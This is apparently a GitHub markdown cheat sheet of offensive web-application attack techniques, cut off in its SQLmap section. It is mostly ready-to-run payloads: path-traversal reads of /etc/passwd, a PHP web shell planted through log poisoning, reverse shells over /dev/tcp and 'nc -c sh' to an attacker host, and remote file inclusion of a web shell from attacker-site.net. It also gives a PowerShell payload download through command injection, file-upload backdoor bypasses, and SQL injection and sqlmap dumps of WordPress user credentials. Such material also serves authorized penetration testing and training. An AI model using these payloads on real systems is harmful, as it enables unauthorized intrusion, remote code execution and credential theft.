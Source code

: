 ## Table of contents
- [Web Application Enumeration](#Web-Application-Enumeration)
- [Directory Enumeration](#Directory-Enumeration)
- [Path Traversal](#Path-Travesal)
- [Local File Inclusion](#Local-File-Inclusion)
- [Remote File Inclusion](#Remote-File-Inclusion)
- [File Upload](#File-Upload)
- [Command Injection](#Command-Injection)
- [SQL Injection](#SQL-Injection)

# Web Application Enumeration

| Tool / Resources                | Description                       |
|---------------------------------|-----------------------------------|
| https://www.wappalyzer.com      | Technology lookup                 |
| https://www.shodan.io/host/$IP  | Technology lookup and server informations |
| https://medium.com/api-center/api-bites-7373b2127ed1 | API path conventions |
| https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d | Fuzzing wordlist |
| whatweb                         | Web Server Enum.                  |
| wafw00f                         | WAF detection tool                |

``` bash
# Web Server Enumeration
nc $TARGET 80
telnet $TARGET 80
sudo nmap -p80,443 -sV $TARGET
sudo nmap -p80,443 -sS --script=http* $TARGET
sudo nmap -p80 --script=http-enum $TARGET
sudo nmap -p80 --script=http-enum --script-args http-enum.basepath="$PATH" $TARGET
```

# Directory Enumeration

Interesting files:
``` bash
curl https://$URL/robots.txt              # check robots file
curl https://$URL/security.txt            # check security file
curl https://$URL/.well-know/security.txt # check security file
```

Derectory searching:
``` bash
gobuster dir -u {TARGET} -w /usr/share/wordlists/...
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -p pattern.txt # create a file "pattern.txt" and use the {GOBUSTER} placeholder: {GOBUSTER}/v1 {GOBUSTER}/v2
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -x $EXT # search for extension
feroxbuster --url {TARGET} --depth 2 --wordlist /usr/share/wordlists/... --rate-limit REQUESTS_PER_SECOND # rate limit useful for Error 429: many requests
```

API discorevy:
``` bash
curl -i https://$URL/test/v1/item                                   # check API method
curl -G -d "param1=value1" $URL                                     # GET
curl -X PUT -d '{"test"}' -H "Content-Type: application/json" $URL  # PUT
curl -d '{"param1":"val1", "param2":"val2"}' -H "Content-Type: application/json" $URL # test API method
curl -d "param1=value1&param2=value2" -X POST $URL # default application/x-www-form-urlencoded
curl -d "param1=value1&param2=value2" -H "Content-Type: application/x-www-form-urlencoded" -X POST $URL # explicit application/x-www-form-urlencoded
curl -d "@data.txt" -X POST $URL # data file
```

# Path Traversal

Example:
``` bash
curl http://www.target-site.net/path/../../../../etc/passwd # relative path
curl http://www.target-site.net/index.php?image=/etc/passwd # absolute path
curl http://www.target-site.net/path/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd  # url encoding "../"
```

Test script:
``` python
# usege: python3 $scriptname http://$IP/path/for/app/ 10 /tmp/test.txt
import sys, subprocess

url = sys.argv[1] # URL target
max_iteration = int(sys.argv[2])+1 # deep
filetocheck = sys.argv[3]
elements = ['../', '%2e%2e/', '%2e%2e%2f', '..%2f', '..%c0%af'] # extend

for element in elements:
  for i in range(1, max_iteration):
    path = element*i
    curl_command = ["curl", "{0}{1}{2}".format(url, path, filetocheck)]
    res = subprocess.run(curl_command, capture_output=True, text=True)
    print("Check for {0}{1}{2}".format(url, path, filetocheck))
    print(res.stdout)
```

# Local File Inclusion

Include some content on the application page to execute it. For example, inject a PHP code snippet into the Apache log file within an application that reads the file directly from the file system.
``` php
<?php echo system($_GET['cmd']); ?>
```

If the application reads the Apache log, you can try sending a command.
``` bash
curl http://www.target-site.net/index.php?x=page.php -A "TEST" # change User-agent
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=pwd # send command pwd
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=ls%20-la # encode the space char "ls -al"
```

Use this technique to one a reverse shell:
``` bash
# create a listener
nc -nvlp 1337

# send the reverse shell command
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=bash -c "bash -i >& /dev/tcp/$ATTACKER/1337 0>&1" # not encoded
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.1%2F4444%200%3E%261%22 # encoded, change the IP address
```

Change the User-Agent value via Burp Suite repeater (example):
```
GET /index.php?x=page.php HTTP/1.1
Host: target-site.net
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
```

Read the content of PHP page via php://filter:
```
curl http://$IP/index.php?page=php://filter/convert.base64-encode/resource=page.php
```

# Remote File Inclusion

``` bash
curl http://www.target-site.net/index.php?page=http://attacker-site.net/webshell.php&cmd=ls # simple command
curl http://www.target-site.net/index.php?page=http://attacker-site.net/webshell.php&cmd=cat+/home/user/.ssh/authorized_keys # read content
curl http://www.target-site.net/index.php?page=http://attacker-site.net/reverse-shell.php # include a reverse shell command
```

# File Upload

Bypass file upload policies.
Via BurpSuite, edit the content and modify the extension from .php to .PHP (or other valid extension):
```
Content-Disposition: form-data; name="fileToUpload"; filename="php-backdoor.PHP"
Content-Type: application/x-php
```

Send command via curl
```
curl "http://$IP/path/uploads/simple-backdoor.PHP?cmd=dir"
```

# Command Injection

Use separatons to send multiple command in a single line:
```
git version; pwd
```

Use local command to upload file on target system:
``` bash
# open a local web server
python -m http.server $PORT

# open a listener
nc -lnvp 1337

# use the vulnerable field to send a command (es: ARCHIVE)
curl -X POST --data 'ARCHIVE=git+version%3b+Invoke-WebRequest+http://$ATTACKER_IP/rev-shell.ps1+-OutFile+reb-shell.ps1' http://$TARGET/page-with-post-action

# execute a reverse shell in linix with netcat (if present)
$ curl -X POST --data 'ARCHIVE=git version%3b nc -c sh $ATTACKER_IP $PORT' http://$TARGET/page-with-post-action
```

# SQL Injection

Error based payload:
``` sql
-- example query
select * from users where username = '$USERNAME' and password = '$PASSWORD';

-- if $USERNAME value is test'
select * from users where username = 'test'' and password = '$PASSWORD'; -- syntax error for character '

-- concatenate command
select * from users where username = 'test' OR 1=1 in (select @@version) -- // 
select * from users where username = 'test' OR 1=1 in (select * from users) -- // 

-- UNION SELECT in POST field
item=VALUE' UNION SELECT null, null, null, database(), user(), @@version -- //

-- not all data can be printable, change position to print other fields
item=VALUE' UNION SELECT null, null, null, user(), database(), @@version -- //

-- get info from information-schema
item=VALUE' UNION SELECT null, null, null, user(), table_name, @@version from information_schema.columns where table_schema=database() -- //
item=VALUE' UNION SELECT null, null, null, user(), column_name, @@version from information_schema.columns where table_schema=database() -- //
item=VALUE' UNION SELECT null, null, null, user(), table_schema, @@version from information_schema.columns where table_schema=database() -- //
```

Blind:
``` sql
' AND 1=1 -- //
' AND IF (1=1, sleep(3),'false') -- //
```

SQLmap:
``` bash
# -p flag specify parameter to test
sqlmap -u $URL -p $PARAM

# db dump
sqlmap -u $URL -p $PARAM --dump

# Example
sqlmap --url "https://$TARGET/?s=1" -p s --dump
sqlmap --url "https://$TARGET/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" -p question_id --answers="follow=y" --batch -v 0 --dbms mysql --dump -T wp_users -C user_login,user_pass --ignore-code 404 # exploit for WP
```

SQLmap (post)
 - copy a POST request from burp suite
``` bash
